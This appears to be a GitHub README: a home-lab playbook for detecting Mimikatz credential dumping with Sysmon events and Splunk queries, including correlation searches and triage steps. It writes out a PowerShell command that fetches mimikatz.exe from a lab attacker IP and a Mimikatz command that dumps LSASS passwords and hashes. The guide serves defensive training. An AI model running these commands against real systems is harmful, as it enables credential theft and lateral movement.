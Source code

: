 Mimikatz Detection Playbook — SOC Home Lab POV
Purpose & Audience
This playbook is tailored for a SOC home lab environment. It explains what Mimikatz does, its effects, and how to detect it using Sysmon events ingested into Splunk in a lab setting. Use this to build hands-on detection exercises, writeups for a portfolio, or to practice incident response in a controlled lab.
What is Mimikatz and why it matters (home lab context)
Mimikatz is an open-source post-exploitation tool used to extract credentials from Windows systems by reading LSASS memory. In a home lab, Mimikatz is typically used for red-team exercises and learning how credential dumping works. Simulating Mimikatz in a lab demonstrates credential theft techniques and lets you validate detection pipelines without affecting production systems.
Effects observed in a lab:
• Extraction of plaintext passwords and NTLM hashes from LSASS memory.
• Use of stolen credentials for lateral movement (PSExec, SMB, RDP) within the lab network.
• Increased EDR/Sysmon telemetry which can be used to validate detections and refine rules.
Home lab assumptions & setup notes
• Lab hosts have Sysmon installed with these events enabled: ProcessCreate (1), ProcessAccess (10), RawAccessRead (9), NetworkConnect (3), FileCreate (11) where possible.
• Splunk index used in this guide: index=win10 with sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational".
• Example attacker host in lab: Kali at 192.168.206.140 (replace with your lab IP).
• In a lab, expect more 'external' connections to trusted lab servers — tune allowlists accordingly.
The Config file of Sysmon used to detect mimikatz is here: 
link:

Execution of Mimikatz on a Client Machine
Here in this lab, I have hosted the mimikatz.exe on Kali Linux Machine, it is being hosted on Apache server.

To execute mimikatz on client machine open powershell as admin and run these below given commands:

Invoke-WebRequest -Uri http://192.168.206.140/mimikatz.exe -OutFile C:\Tools\mimikatz.exe
 
What it does ?
•	Invoke-WebRequest is PowerShell’s built-in HTTP client.
•	-Uri http://192.168.206.140/mimikatz.exe tells PowerShell which URL to fetch.
•	-OutFile C:\Tools\mimikatz.exe saves the response bytes to C:\Tools\mimikatz.exe on disk.
What it does (plain):
•	Invoke-WebRequest is PowerShell’s built-in HTTP client.
•	-Uri http://192.168.206.140/mimikatz.exe tells PowerShell which URL to fetch.
•	-OutFile C:\Tools\mimikatz.exe saves the response bytes to C:\Tools\mimikatz.exe on disk.
C:\Tools\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
 
What it attempts (plain):
This runs the mimikatz.exe binary (from C:\Tools) with three arguments:
•	privilege::debug — attempts to enable the SeDebugPrivilege for the process, which allows opening handles to other processes (needed to inspect protected process memory).
•	sekurlsa::logonpasswords — tells mimikatz to read LSASS memory and dump credential material (cached passwords, NTLM hashes, Kerberos tickets) from the Security Authority subsystem.
•	exit — close mimikatz program after running previous commands
Given below is output from mimikatz.
link:
 
This is the output of mimikatz here we can clearly see password of Administrator Account.
Detection strategy 
1. Focus on behavior over filenames: attackers rename Mimikatz; detect techniques (lsass access, process execution from user folders, PowerShell-driven deliveries).
2. Use A and B from initial indicators (ProcessCreate from user folders and non-system LSASS access) as primary lab detections — these are robust in a lab where you control test scenarios.
3. Correlate network → file → process → lsass where possible to produce high-confidence incidents for practice and reporting.
Initial detection queries to keep (A & B)
A — Process created from user folder (suspicious execution)
Query (run in Splunk):
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
| where like(Image, "%\\Users\\%") OR like(Image, "%\\Downloads\\%") OR like(Image, "%\\Tools\\%")
| table _time host User Image CommandLine ParentImage
Explanation :
- This query surfaces processes executed from non-system folders which is common for locally dropped payloads in lab exercises.
- In a lab, mimic delivery by downloading an EXE to C:\Users\labuser\Downloads and then executing it; this query will show that process create event.
- Use ParentImage and CommandLine to understand how the payload was launched (PowerShell, double-click, wmiprvse, etc.).

B — Non-system process accessing LSASS (high-fidelity)
Query (run in Splunk):
index=win10 sourcetype="Microsoft-Windows-Sysmon/Operational" EventCode=10
| where like(TargetImage, "%\\lsass.exe")
| where NOT like(SourceImage, "C:\\Windows\\%")
| table _time host User SourceImage TargetImage GrantedAccess
| sort - _time
Explanation:
- This is the strongest in-lab indicator: a non-system process trying to access LSASS memory. When you run Mimikatz on the lab host, this will produce a ProcessAccess event.
- GrantedAccess flags can indicate the type of handle requested; check for memory-read/duplicate handle flags.

Correlation / attack-chain queries (keep 1,2,3,4,5)
1 — Outbound connection from PowerShell → external IP (lab attacker host)
Explanation:
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 DestinationIp="192.168.206.140"
| table _time host User Image SourceIp SourcePort DestinationIp DestinationPort Protocol
- Use this when your Kali attacker host is known. It shows PowerShell or other processes connecting to the attacker VM. Replace DestinationIp with your lab attacker IP.
- In a home lab, this is often the first visible sign of payload fetch if you emulate web delivery from Kali.

2 — File creation for mimikatz (or lab payload)
Explanation:
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=11 TargetFilename="*mimikatz.exe"
| table _time host User Image TargetFilename TargetFileSize
- This finds direct file writes matching the name mimikatz.exe. In a lab you may name the binary 'mimikatz.exe' for clarity; in red-team scenarios rename the binary and update this query accordingly.
- Consider using wildcard patterns like *mimikatz* or checking hashes.

3 — Execution of mimikatz (ProcessCreate)
Explanation:
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1
| search Image="*\\mimikatz.exe"
| table _time host User Image CommandLine ParentImage
- Shows the process creation for mimikatz.exe including parent and commandline. Useful for validating how you executed it during lab exercises (manual run, PowerShell spawn, etc.).

4 — Access to LSASS (ProcessAccess)
Explanation:
index=win10 sourcetype="Microsoft-Windows-Sysmon/Operational" EventCode=10
| search TargetImage="*\\lsass.exe"
| table _time host User SourceImage TargetImage GrantedAccess ProcessId
- Lists all process access attempts to lsass.exe, across the environment. In lab, use this to verify the exact process and time when Mimikatz accessed LSASS.

5 — Quick IOC hunt for 'mimikatz' (text search)
Explanation:
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational"
| search "mimikatz.exe"
| table _time host EventCode User Image CommandLine TargetFilename
| sort - _time
- Fast sweep to catch any mention of 'mimikatz.exe' in raw events. Helpful in labs for quick confirmation after running the tool.

Correlation saved search (lab-friendly)
Explanation:
index=win10 sourcetype="WinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode IN (3,11,1,10)
| eval evt=case(EventCode==3,"net", EventCode==11,"file", EventCode==1,"proc", EventCode==10,"lsass", 1==1,"other")
| transaction host maxspan=5m startswith=eval(evt="net") endswith=eval(evt="lsass")
| search eventcount>1
| table _time host Duration eventcount eventids Image User
- Use this transaction to practice automated correlation in a lab. It groups network→file→process→lsass events within 5 minutes and is useful to trigger a simulated incident for testing runbooks.
Triage & lab exercise steps
Use the following steps to practice incident response in your lab when LSASS access is observed:
1. Snapshot the VM before making changes. Document timestamps and event IDs.
2. Isolate the host (disconnect network), then capture memory (if trained to do so) and system logs.
3. Identify the source binary: SourceImage, ParentImage, CommandLine. Collect the binary from disk for analysis.
4. Rotate any test credentials used in the lab to practice credential response procedures.
5. Re-run the attack in a separate snapshot to reproduce and validate detection (use isolated environment).

Mimikatz remains a core post-exploitation tool for credential theft; this lab-focused playbook teaches defenders how to reliably detect it using Sysmon + Splunk. It covers the attack lifecycle (delivery → execution → LSASS access), explains SPL hunts and correlation rules tailored for a home lab (process creates from user folders, file create events, network connects to a lab attacker, and ProcessAccess to lsass.exe), and provides a practical triage and exercise plan for practicing incident response safely. The guide emphasizes behavior-based detection, tuning tips to reduce false positives, and steps to simulate, capture, and respond to real-world credential-dump scenarios without touching production systems.
# Mimikatz-Detection-in-Splunk
